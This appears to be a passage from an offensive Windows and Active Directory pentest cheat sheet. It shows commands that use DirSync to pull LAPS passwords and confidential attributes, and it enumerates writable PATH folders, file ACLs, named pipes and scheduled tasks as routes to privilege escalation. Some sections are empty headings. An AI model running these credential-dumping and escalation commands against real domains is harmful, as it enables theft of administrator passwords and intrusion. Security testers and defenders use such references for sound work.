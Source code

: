 #### DirSync
Need **DS-Replication-Get-Changes** + **DS-Replication-Get-Changes-In-Filtered-Set** on the domain.
As presented [here](https://simondotsh.com/infosec/2022/07/11/dirsync.html).
```
Import-Module ./DirSync.psm1

#Sync all the LAPS passwords in the domain
Sync-LAPS

#Sync a specific LAPS password
Sync-LAPS -LDAPFilter '(samaccountname=<computer$>)'

#Sync confidential attributs
Sync-Attributes -LDAPFilter '(samaccountname=user1)' -Attributes unixUserPassword,description
```

####  DCshadow

# Misconfigurations 
## Global path
If any part of the SYSTEM %PATH% variable is writeable by Authenticated Users, privesc exists. Many applications don't use full path. If system32 is not first entry in path this is bad.

Check PATH:
```
reg query HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager\\Environment
$env:Path
```
Check permissions of all folders inside PATH:
```
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```
## Find Readable/Writable Files and Directories
```
accesschk.exe -uws "Everyone" "C:\\Program Files"

Get-ChildItem "C:\\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\\sAllow\\s\\sModify"}
```
## Find named pipes
Find named pipes: 
```
[System.IO.Directory]::GetFiles("\\.\pipe\")
```
Check named pipes DACL:
```
pipesec.exe <named_pipe>
```
Use reverse engineering software to find the good payload.
Send data throught the named pipe :
```
program.exe >\\.\pipe\StdOutPipe 2>\\.\pipe\StdErrPipe`
```
## Scheduled Tasks  
```
# MMC snaps-ins
mmc.exe
taskschd.msc

# schtsaks
```